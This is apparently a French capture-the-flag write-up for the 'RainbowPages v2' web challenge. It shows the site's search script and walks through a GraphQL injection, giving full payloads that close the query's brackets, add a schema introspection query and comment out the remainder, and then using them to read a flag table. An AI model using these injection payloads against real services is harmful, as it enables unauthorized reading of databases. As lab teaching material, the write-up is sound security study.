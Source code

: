 # <center>RainbowPages v2</center>


<center>

![](./RB.png)

</center>

On arrive donc sur cette page

![](./RB1.png)

Dont le code source contient le script 

```javascript
    <script>
		function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa(searchInput);
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
	</script>
```

Vu la requête de la première version du challenge, on peut deviner celle de celui-ci qui devrait ressembler à ```{ allCooks (filter: {or: [{firstname: {like: "%input%"}}, {lastname: {like: "%input%"}}])} { nodes { firstname, lastname, speciality, price}}```

On essaye d'injecter notre requête comme pour le chall précedent pour lister tous les champs l'aide du payload (toujours mis en base 64 par la suite) :

    {
     __schema {
        types {
        name
        }
     }
    }

Mais ...

![](./RB2.png)
Eh oui, ce serait trop facile sinon.<br>
Cette erreur est présente car nous ne sommes simplement pas sorti des champs de la requête, il nous suffit donc de sortir des champs.
<br>Pour sortir des champs il faut refermer tous les '(', '[', '{' ouverts au début pour après injecter notre requête.

```a%"}}]})``` cet input referme tous les champs ouverts, ensuite il faut mettre les nodes pour la cohérence de la requête ```{ nodes { firstname, lastname, speciality, price }}```. Avec ça nous sommes bons, maintenant nous pouvons mettre notre payload, ici ```__schema{types{name}}}```.
<br>
Mais la requête ne va pas marcher si celle-ci comptabilise déjà celle de base :/, c'est pour ça que nous avons juste à mettre un petit '#' à la fin de notre requête, ce qui va faire que tous ce qui se situera après notre payload (sur la même ligne) sera mis en commentaire et ne sera donc pas pris en compte.

Ce qui nous donne comme requête finale :

    a%"}}]}){ nodes { firstname, lastname, speciality, price }} __schema{types{name}}}#


![](./RB3.png)

On arrive à remarquer plusieurs champs intéressants tel que FlagNotTheSameTableName, checkons un peu ce qu'elle contient à l'aide de cette requête :

    a%"}}]}) { nodes { firstname, lastname, speciality, price }}allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}}#

![](./RB4.png)

Ah bah il suffisait de regarder ^^'
